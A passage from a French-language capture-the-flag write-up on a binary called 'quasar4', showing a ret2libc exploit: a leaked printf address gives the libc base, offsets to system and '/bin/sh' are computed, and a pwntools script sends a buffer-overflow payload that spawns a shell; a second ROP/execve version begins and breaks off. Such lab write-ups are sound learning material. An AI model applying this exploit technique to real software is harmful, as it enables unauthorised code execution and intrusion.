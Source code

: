 ```python
printf_offset = 0x52860
base_address_libc = leak - printf_offset

system_offset = 0x3e9e0
system_address = base_address_libc + system_offset
```

Vérifions si notre libc contient la chaine de caractère `"/bin/sh"` afin de faire notre programme executer `system("bin/sh")`.

`strings -a -t x /lib32/libc.so.6 | grep "/bin/sh"`

![](C:\labo\assets\2022-02-27-19-54-45-image.png)

Il suffit maintenant de placer l'adresse de notre fonction system suivie de celle de notre chaine de caractère `/bin/sh`:

```python
binsh_offset = 0x17eaaa
binsh_addr = base_address_libc + binsh_offset

p.sendline("1040")

flow = b"T" * 16
flow2 = b"T" * 4

#nope = b"\x90" * 4

summon = [
        flow,
        p32(system_address),
        flow2,
        p32(binsh_addr),

]

summon = b"".join(summon)

p.sendline(summon)

p.interactive()
```

Et BOUM! nous avons invoqué un shell à partir du binaire ...... mais sans les droits du user de quasar5 :sweat_smile:

Voici une autre version de l'exploit permettant d'exécuter d'autres fonctions avec une mini rop chain, ici la fonction execve :

```python
#!/usr/bin/env python3

from pwn import *

p = process("./quasar4")
#gdb.attach(p)

elf = ELF('./quasar4')

#p = gdb.debug("./vuln")
raw_input("attach gdb")
p.recvuntil(b"0x")
leak = int(p.recv(8), 16)
log.info(f"leak={hex(leak)}")

printf_offset = 0x52860
base_address_libc = leak - printf_offset
```